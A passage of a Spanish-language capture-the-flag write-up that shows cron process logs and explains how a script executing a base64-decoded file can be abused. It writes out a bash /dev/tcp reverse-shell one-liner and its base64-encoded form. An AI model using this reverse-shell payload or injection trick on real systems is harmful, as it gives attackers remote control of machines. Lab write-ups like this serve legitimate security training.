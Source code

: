 ```
2025/01/19 10:47:01 CMD: UID=0     PID=753    | /usr/sbin/CRON 
2025/01/19 10:47:01 CMD: UID=0     PID=754    | /usr/sbin/CRON 
2025/01/19 10:47:01 CMD: UID=1000  PID=755    | 
2025/01/19 10:47:01 CMD: UID=1000  PID=756    | /bin/bash /home/kvzlx/.cron_script.sh 
2025/01/19 10:47:01 CMD: UID=1000  PID=759    | 
2025/01/19 10:47:01 CMD: UID=1000  PID=757    | /bin/bash /home/kvzlx/.cron_script.sh 
2025/01/19 10:47:01 CMD: UID=0     PID=760    | /usr/sbin/CRON 
2025/01/19 10:47:01 CMD: UID=101   PID=761    | 
2025/01/19 10:47:01 CMD: UID=1000  PID=762    | /usr/sbin/exim4 -Mc 1tZSpZ-0000CG-2C
2025/01/19 10:48:01 CMD: UID=0     PID=768    | /usr/sbin/CRON 
2025/01/19 10:48:01 CMD: UID=0     PID=769    | /usr/sbin/CRON 
2025/01/19 10:48:01 CMD: UID=1000  PID=770    | /bin/sh -c /home/kvzlx/.cron_script.sh 
2025/01/19 10:48:01 CMD: UID=1000  PID=771    | /bin/bash /home/kvzlx/.cron_script.sh 
2025/01/19 10:48:01 CMD: UID=1000  PID=774    | 
2025/01/19 10:48:01 CMD: UID=1000  PID=772    | /bin/bash /home/kvzlx/.cron_script.sh 
2025/01/19 10:48:01 CMD: UID=0     PID=775    | /usr/sbin/CRON 
2025/01/19 10:48:01 CMD: UID=101   PID=776    | 
2025/01/19 10:48:01 CMD: UID=1000  PID=777    | /usr/sbin/exim4 -Mc 1tZSqX-0000CV-2J 
2025/01/19 10:49:01 CMD: UID=0     PID=779    | /usr/sbin/CRON 
2025/01/19 10:49:01 CMD: UID=0     PID=780    | /usr/sbin/CRON 
2025/01/19 10:49:01 CMD: UID=1000  PID=781    | /bin/sh -c /home/kvzlx/.cron_script.sh 
2025/01/19 10:49:01 CMD: UID=1000  PID=782    | cat /var/www/html/.wp-encrypted.txt 
2025/01/19 10:49:01 CMD: UID=1000  PID=783    | /bin/bash /home/kvzlx/.cron_script.sh 
2025/01/19 10:49:01 CMD: UID=1000  PID=785    | 
2025/01/19 10:49:01 CMD: UID=0     PID=786    | /usr/sbin/CRON 
2025/01/19 10:49:01 CMD: UID=0     PID=787    | 
2025/01/19 10:49:01 CMD: UID=1000  PID=788    | /usr/sbin/exim4 -Mc 1tZSrV-0000Cg-2S
```

Vemos que si esperamos un rato a que el `cron` se ejecute nos muestra lo que esta sucediendo a bajo nivel.

Para ello tendremos que esperar un rato, hasta que podremos observar lo siguiente:

```
2025/01/19 10:49:01 CMD: UID=1000  PID=782    | cat /var/www/html/.wp-encrypted.txt
```

Vemos que esta intentando leer el archivo `.wp-encrypted.txt`, vamos a ver que hay en dicho archivo.

Pero si entramos vemos que no hay ningun archivo, podemos nosotros crear el archivo, ya que no se esta aplicando ningun tipo de sanitizacion, lo que va hacer es que va a decodificar el `base64` que nosotros le metamos al archivo y lo va a ejecutar, por lo que haremos lo siguiente:

Nos vamos a nuestro `host` y codificamos la `reverse shell` en `base64`:

```shell
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"| base64
```

Info:

```
L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjE4Ni83NzU1
IDA+JjEnCg==
```
